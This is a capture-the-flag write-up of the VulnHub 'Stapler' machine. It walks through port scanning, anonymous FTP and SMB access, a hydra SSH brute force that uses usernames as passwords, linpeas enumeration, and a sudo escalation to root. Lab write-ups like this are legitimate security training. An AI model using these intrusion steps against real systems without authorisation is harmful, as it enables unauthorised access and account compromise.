



# Pre-Engagement
I downloaded the box from VulnHub, and created a virtual machine giving it a
bridged adapter. The machine's IP address has been aliased to `stapler` within
my `/etc/hosts` file. However, you may find different IPs referring to `stapler`
throughout the writeup. This because sometimes I'm doing the machine from the
Proving Grounds website as well. It could be because I'm a mess.

# Reconnaissance
Going with the ritual, I use `nmap` to scan all of the ports.
`nmap -p- -T4 -oN nmap/initial stapler`

The scan reveals the following.
```
Host is up (0.16s latency).
Not shown: 65523 filtered tcp ports (no-response)
PORT      STATE  SERVICE
20/tcp    closed ftp-data
21/tcp    open   ftp
22/tcp    open   ssh
53/tcp    open   domain
80/tcp    open   http
123/tcp   closed ntp
137/tcp   closed netbios-ns
138/tcp   closed netbios-dgm
139/tcp   open   netbios-ssn
666/tcp   open   doom
3306/tcp  open   mysql
12380/tcp open   unknown
```
I looked into some of those ports in detail.
`nmap -p 12380,80,3306,666,21 -sC -sV -oN nmap/detail stapler`
```
Host is up (0.0013s latency).

PORT      STATE SERVICE    VERSION
21/tcp    open  ftp        vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.1.8
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 550 Permission denied.
80/tcp    open  http       PHP cli server 5.5 or later
|_http-title: 404 Not Found
666/tcp   open  tcpwrapped
3306/tcp  open  mysql      MySQL 5.7.12-0ubuntu1
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.12-0ubuntu1
|   Thread ID: 22
|   Capabilities flags: 63487
|   Some Capabilities: SupportsTransactions, IgnoreSigpipes, Speaks41ProtocolOld, LongPassword, SupportsCompression, FoundRows, Support41Auth, LongColumnFlag, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, ODBCClient, DontAllowDatabaseTableColumn, SupportsLoadDataLocal, InteractiveClient, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: \x08\x04%\x170O\x1A\x06
| 2c\x0Ej#8\x17eCO|
|_  Auth Plugin Name: mysql_native_password
12380/tcp open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Tim, we need to-do better next year for Initech
```

# Vulnerability Analysis
We notice that anonymous login is allowed for ftp. I tried logging in.
```
❯ ftp stapler
Connected to stapler.
220-|-----------------------------------------------------------------------------------------|
220-| Harry, make sure to update the banner when you get a chance to show who has access here |
220-|-----------------------------------------------------------------------------------------|
Name (stapler:pratik): anonymous
331 Please specify the password.
Password:
230 Login successful.
Using binary mode to transfer files.
ftp> ls
-rw-r--r--    1 0        0             107 Jun 03  2016 note
ftp> get note
150 Opening BINARY mode data connection for note (107 bytes).
226 Transfer complete.
107 bytes received in 0.000396 seconds (264 kbytes/s)
```
There was nothing except the `note` file with the contents:
```
Elly, make sure you update the payload information. Leave it in your FTP account once your are done, John.
```
There have been names all over the place, though. So, that's interesting.

I tried connecting to the `doom` service at port 666:
```
nc stapler 666
```
And that returned some binary data. I save it to a file and do `file` on it:
```
❯ nc stapler 666 > doom
❯ file doom
doom: Zip archive data, at least v2.0 to extract, compression method=deflate
```

A zip archive? Hmmm... Tried unzipping it, it inflated a `message2.jpg` image.


I had also noticed some SMB ports.
```
❮ smbclient -L //stapler/
Password for [WORKGROUP\pratik]:

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	kathy           Disk      Fred, What are we doing here?
	tmp             Disk      All temporary files should be stored here
	IPC$            IPC       IPC Service (red server (Samba, Ubuntu))
```
And apparently the shares require no password to access. So I mounted the
`kathy` share onto my local system. I had to give the `-o vers=1.0` because
without it, I'd get an error.
```
❯ doas mount -t cifs -o vers=1.0 //stapler/kathy/ /mnt
❮ cd /mnt

❯ ls -R
 backup/   kathy_stuff/

./backup:
 vsftpd.conf   wordpress-4.tar.gz

./kathy_stuff:
 todo-list.txt
```
Nothing inside, really.

# Exploitation
I wanted to see if we could do anything about the SMB service. I looked up on
the internet to see how I could enumerate on it. I came across [this](https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/) guide
and basically just followed some of the steps. I tried `nmap`'s scripts and they
didn't give me any interesting results neither did `metasploit`. However, near
the end there was the tool `enum4linux`. I tried it out on the machine and it
gave me a bunch of interesting information.
```
❯ enum4linux stapler > enum4linux/scan
```
At the end of its output, we see some usernames.

I decided to put those usernames into a `users.txt` file and load up `hydra`
with the same file as usernames as well as password list.
```
hydra -L users.txt -P users.txt stapler ssh
```
And it got a successful login after a while for the user `SHayslett` with the
same password. Logging in with those credentials allowed me in to the machine.
The first thing I needed to do now was find the local flag. Having been
experienced enough with this, I knew that the flag is located inside a
`local.txt` file. I used `find` to search the entire file system for that file.
```
SHayslett@red:~$ find / -type f -name "local.txt" 2> /dev/null
/home/local.txt
```
And the local flag was discovered.

# Privilege Escalation
I downloaded the `linpeas.sh` script onto the machine and let it run for a
while. Looking at its output conveniently got me some credentials.



I tried my luck with the first user, but it wasn't any special. Logging in as
`peter`, though revealed something. There was a file named `.sudo-as-admin-successful`
which was enough of a hint for me to try `sudo -l` and well, I could run any
command as root. So what I did then is an obvious step: `sudo su -`. That got me
to the root flag.


